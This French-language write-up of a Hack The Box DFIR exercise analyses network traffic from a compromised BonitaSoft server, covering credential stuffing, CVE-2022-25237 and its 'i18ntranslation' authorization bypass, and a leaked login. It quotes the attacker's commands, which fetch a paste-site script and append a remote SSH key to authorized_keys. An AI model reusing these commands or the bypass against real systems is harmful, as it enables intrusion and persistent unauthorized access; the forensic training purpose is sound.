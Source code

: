 # Sherlock / SOC / CTI / DFIR / IR Exercice

## Title: Meerket

## Date: 14/10/2025

## Objective:
Le but de la chasse est d'identifier la source d’un accès non autorisé par le quelque groupe dans une entreprise et d'analyser leur actions malveillants en utilisent PCAP et logs. Notre Business Management Platforme est compromisé

## Environment / Tools Used:
* HTB Sherlocks: SOC / DFIR
* Wireshark, MITRE ATT&CK, WayBack Machine, Tshark

## Investigation Steps:
1. Analyser les informations disponiblees: `PCAP` et `alerts.json`.
2. Utiliser Wireshark pour trouver les infos
3. Utiliser *WayBack Machine* pour vérifier le contenu de site trouvé
4. Analyser le MITRE ATT&CK pour les techniques de persistence

## Findings:
1. On doit trouver le nom de l'application: Business Management Platforme.
    - Pour trouver cette information, j'ai utilisé la source: *PCAP*.
    - Quand j'ai analysé les logs: `http`, j'ai trouvé que le logiciel: **bonita** était dans le systeme et il y a plusiers requêts pour lui.
    - Après, j'ai recherché sur le Google pour le `bonita software` et j'ai trouvé que: **BonitaSoft** est le nom officiel.
    - Cet logiciel est *open-source* et souvent utilisé pour `Business Management Projects` car il fournit l'automatisation et bon système pour le business.
    - Voilà, la preuve:
    ![Le logiciel utilisé](images/1.png)

2. Maintenant, on doit trouver la technique de **Brute Forcing** utilisé par l'attaquant
    - Quand j'ai analysé la source: PCAP, c'est bizarre que il y a beacoup de login avec les utilisateurs differents et les mots de passe.
    - On peut concluder que cette techniqe s'apple **Credential Stuffing**, dont les informations d'identifications perdus sont souvent utilisés par les attaquants
    - Voilà, la preuve:
    ![La technique de Brute Forcing](images/2.png)

3. On doit trouver le nom de **CVE** avec ce logiciel:
    - Quand on recherché sur l'Internet: `bonitasoft vulnerabilité`
    - On a trouvé le blog de **Rhino Security Labs** et il y a **CVE** associé avec cette vulnerabilité
    - Le CVE: `CVE-2022-25237`
    - Voilà, la preuve:
    ![CVE](images/3.png)

4. On doit trouver le texte spécial associé avec cette vulnerabilité:
    - Pour trouver cela, j'ai recherché sur **NIST** et trouvé ce CVE.
    - Le string spécial est: **i18ntranslation**, l'attaquant peut ajouter ce texte après `URL` de `API` et faire **bypass**
    - Voilà, la preuve:
    ![String spécial](images/4.png)

5. Maintenant, on doit trouver la combination de `username et password` uniques
    - Pour trouver cette info, on doit utiliser: **tshark** command-line outil.
    - J'ai utilisé cette commande sur l'Intenet:
    ```bash
        tshark -Y '(http.request.uri == "/bonita/loginservice") && (http.user_agent == "python-requests/2.28.1")' -r meerkat.pcap -T json | jq '.[]._source.layers.http."http.file_data"' | sort | uniq | wc -l
    ```
    - `tshark -r meerkat.pcap` >> pour lire ce fichier
    - `-Y '(http.request.uri = "/bonita/loginservice")` >> seulement `URI` request info
    - `http.user_agent == "python-requests/2.28.1"` >> seulement ce `User agent`
    - `-T json` >> output JSON format
    ```json
        [
        {
            "_source": {
            "layers": {
                "http": {
                "http.file_data": "username=alice&password=1234"

            }
            }
        }
        ]
    ```
    - Après, `jq '.[]._source.layers.http."http.file_data`
        - `jq '.[]` >> tester chaque array
        - `._source.layers.http."http.file_data"` >> aller dedans chaque array et extracter les info de seulement **corps de HTTP POST**
        - **il tire le corps HTTP POST**
    - Voilà: la preuve
    ![Nombre des combinations](images/5.1.png)
    ![Nombre des combinations](images/5.png)


6. On doit trouver le username et le mot de passe réussi:
    - Quand on a analysé la  source: `PCAP`, on a recherché le `http.response.code == 200, 204`.
    - `200` >> avec succéss; `204` >> no contenu mais avec succéss
    - On a trouvé le stream et on fait `suivre TCP/HTTP stream` et après on a trouvé les commandes malveillants.
    - En ce moment-là, on sait que le username et le mot de passe était avec succéss car il a envoyé le code malveillant.
    - Ce username et mot de passe:
        - `seb.broom@forela.co.uk` après **URL Decode**:`seb.broom%40forela.co.uk`
        - Et mot de passe: `g0vernm3nt&_l`
    - Mais ici le mot de passe: `g0vernm3nt` car `&` est separator et `_l` et pour commencer la nouvelle ligne.

    - Voilà, la preuve:
    ![Username & Password](images/6.1.png)
    ![User](images/6.png)

7. On doit trouver le site dont l'attaquant a utilisé:
    - Quand on a analysé le stream avec succéss et associé avec *payload*, on a trouvé `GET` methode.
    - Ensuite, on a trouvé la commande:
        - `cmd=wget https://pastes.io/raw/bx5gcr0et8`
    - On a trouvé que le site: `pastes.io` pour télécharger le texte.
    - Voilà, la preuve:
    ![Site](images/7.png)
    ![Vo](images/7.1.png)

8. On doit trouver le nom du fichier: PUBLIC KEY
    - Quand on a analysé le site: `https://pastes.io/raw/bx5gcr0et8`
    - On a trouvé que il y a un fichier dont contenait `SSH Keys`
    - Pour se connecter avec le temps: `2023`, on a utilisé **WayBack Machine** et testé la date: `2023, 23 Mars`
    - Ensuite, on a trouvé que:
        - `curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys`
    - Et la solution et le nom de fichier: `hffgra4unv`
    - Voilà, la preuve:
    ![Public Key](images/8.1.png)
    ![P](images/8.png)

9. On doit trouver le fichier modifié par l'attaquant:
    - On a vu que l'attaquant a téléchargé le `Public Key` et l'a écrit dans la location: `/home/ubuntu/.ssh/authorized_keys`
    - Voilà, la preuve:
    ![Fichier modifié](images/8.png)

10. On doit trouver la technique de persistence sur le MITRE ATT&CK
    - L'attaquant a utilisé la technique de modification de fichier: `Authorized SSH Keys`
    - Dans le MITRE ATT&CK, cette technique s'appele: `T1098.004`
    - Voilà, la preuve:
    ![Image](images/10.png)

## Key Learning / Takeaway:
1. Connexion avec WayBack Machine
2. Wireshark >> `tshark` filtrer >> `HTTP` codes: `200,204`
    - `http.request.uri` et `http.user_agent`
4. Persisente par `SSH` modification

## Voilà:
- **Voilà, ça y est, c'est fini:** `https://labs.hackthebox.com/achievement/sherlock/2118023/552`
